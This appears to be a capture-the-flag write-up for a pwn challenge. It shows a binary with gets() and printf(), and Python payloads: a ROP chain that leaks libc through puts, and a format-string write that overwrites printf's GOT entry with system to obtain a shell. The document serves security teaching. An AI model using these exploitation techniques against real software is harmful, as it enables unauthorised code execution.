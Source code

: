 # Return Of The ROPs
#### Description
Is ROP dead? God no. But it returns from a long awaited time, this time in a weird fashion. Three instructions ... can you pwn it?
#### Author
Tango
#### Points and solves
480 points, 55 solves.


This binary is a simpler version of pwn_inn.

```c
undefined8 main(void)
{
  char local_28 [32];
  
  ignore_me_init_buffering();
  puts("What would you like to say?");
  gets(local_28);
  printf(local_28);
  return 0;
}
```

Buffer overflow and string format attack, there's nothing more we could ask for.

### Leaking libc:
```python
payload = 40*b"A" +  p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```
Simple ROP chain to leak ```puts``` address.
We don't have a libc version, so we use the website [libc database search](https://libc.nullbyte.cat/) to narrow down libc version based on known addresses.

## Getting shell:
We overwrite printf with system, in the same manner we did in pwn_inn, just instead using 3 batches, I used 2 batches and discarded the ```BBBB``` part because it's just uneccessary. (Because for both it's 0x007f.)

```python
payload = b"%" + ("%05d"%l[0]).encode("ascii") + b"d%13$hn" +\
		  b"%" + ("%05d"%(l[1]-l[0])).encode("ascii") + b"d%14$hn"
payload += (0x28-len(payload))*b"A" + p64(ret) + p64(elf.sym.main)
for i in range(0,2):
    if l[i] == third2:
        payload += p64(elf.sym.got["printf"]+2)
    if l[i] == third3:
        payload += p64(elf.sym.got["printf"])
```


Send this payload and get shell :)

#### Flag
```flag{w3_d0n't_n33d_n0_rdx_g4dg3t,ret2csu_15_d3_w4y_7821243}```
